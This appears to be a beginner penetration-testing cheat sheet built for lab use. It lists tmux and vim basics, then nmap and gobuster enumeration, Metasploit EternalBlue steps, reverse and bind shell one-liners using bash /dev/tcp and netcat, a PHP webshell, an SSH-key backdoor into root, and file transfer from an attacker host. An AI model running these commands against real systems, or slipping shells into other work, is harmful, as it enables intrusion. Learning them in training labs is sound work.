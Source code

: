 # Getting Started Cheat Sheet

## Basic Tools

|**Command**|**Description**|
|---|---|
|**General**||
|`sudo openvpn user.ovpn`|Connect to VPN|
|`ifconfig`/`ip a`|Show our IP address|
|`netstat -rn`|Show networks accessible via the VPN|
|`ssh user@10.10.10.10`|SSH to a remote server|
|`ftp 10.129.42.253`|FTP to a remote server|
|**tmux**||
|`tmux`|Start tmux|
|`ctrl+b`|tmux: default prefix|
|`prefix c`|tmux: new window|
|`prefix 1`|tmux: switch to window (`1`)|
|`prefix shift+%`|tmux: split pane vertically|
|`prefix shift+"`|tmux: split pane horizontally|
|`prefix ->`|tmux: switch to the right pane|
|**Vim**||
|`vim file`|vim: open `file` with vim|
|`esc+i`|vim: enter `insert` mode|
|`esc`|vim: back to `normal` mode|
|`x`|vim: Cut character|
|`dw`|vim: Cut word|
|`dd`|vim: Cut full line|
|`yw`|vim: Copy word|
|`yy`|vim: Copy full line|
|`p`|vim: Paste|
|`:1`|vim: Go to line number 1.|
|`:w`|vim: Write the file 'i.e. save'|
|`:q`|vim: Quit|
|`:q!`|vim: Quit without saving|
|`:wq`|vim: Write and quit|
## Pentesting

|**Command**|**Description**|
|---|---|
|**Service Scanning**||
|`nmap 10.129.42.253`|Run nmap on an IP|
|`nmap -sV -sC -p- 10.129.42.253`|Run an nmap script scan on an IP|
|`locate scripts/citrix`|List various available nmap scripts|
|`nmap --script smb-os-discovery.nse -p445 10.10.10.40`|Run an nmap script on an IP|
|`netcat 10.10.10.10 22`|Grab banner of an open port|
|`smbclient -N -L \\\\10.129.42.253`|List SMB Shares|
|`smbclient \\\\10.129.42.253\\users`|Connect to an SMB share|
|`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`|Scan SNMP on an IP|
|`onesixtyone -c dict.txt 10.129.42.254`|Brute force SNMP secret string|
|**Web Enumeration**||
|`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`|Run a directory scan on a website|
|`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`|Run a sub-domain scan on a website|
|`curl -IL https://www.inlanefreight.com`|Grab website banner|
|`whatweb 10.10.10.121`|List details about the webserver/certificates|
|`curl 10.10.10.121/robots.txt`|List potential directories in `robots.txt`|
|`ctrl+U`|View page source (in Firefox)|
|**Public Exploits**||
|`searchsploit openssh 7.2`|Search for public exploits for a web application|
|`msfconsole`|MSF: Start the Metasploit Framework|
|`search exploit eternalblue`|MSF: Search for public exploits in MSF|
|`use exploit/windows/smb/ms17_010_psexec`|MSF: Start using an MSF module|
|`show options`|MSF: Show required options for an MSF module|
|`set RHOSTS 10.10.10.40`|MSF: Set a value for an MSF module option|
|`check`|MSF: Test if the target server is vulnerable|
|`exploit`|MSF: Run the exploit on the target server is vulnerable|
|**Using Shells**||
|`nc -lvnp 1234`|Start a `nc` listener on a local port|
|`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`|Send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`|Another command to send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`|Start a bind shell on the remote server|
|`nc 10.10.10.1 1234`|Connect to a bind shell started on the remote server|
|`python -c 'import pty; pty.spawn("/bin/bash")'`|Upgrade shell TTY (1)|
|`ctrl+z` then `stty raw -echo` then `fg` then `enter` twice|Upgrade shell TTY (2)|
|`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`|Create a webshell php file|
|`curl http://SERVER_IP:PORT/shell.php?cmd=id`|Execute a command on an uploaded webshell|
|**Privilege Escalation**||
|`./linpeas.sh`|Run `linpeas` script to enumerate remote server|
|`sudo -l`|List available `sudo` privileges|
|`sudo -u user /bin/echo Hello World!`|Run a command with `sudo`|
|`sudo su -`|Switch to root user (if we have access to `sudo su`)|
|`sudo su user -`|Switch to a user (if we have access to `sudo su`)|
|`ssh-keygen -f key`|Create a new SSH key|
|`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`|Add the generated public key to the user|
|`ssh root@10.10.10.10 -i key`|SSH to the server with the generated private key|
|**Transferring Files**||
|`python3 -m http.server 8000`|Start a local webserver|
|`wget http://10.10.14.1:8000/linpeas.sh`|Download a file on the remote server from our local machine|
|`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`|Download a file on the remote server from our local machine|
|`scp linenum.sh user@remotehost:/tmp/linenum.sh`|Transfer a file to the remote server with `scp` (requires SSH access)|
|`base64 shell -w 0`|Convert a file to `base64`|
|`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`|Convert a file from `base64` back to its orig|
|`md5sum shell`|Check the file's `md5sum` to ensure it converted correctly|
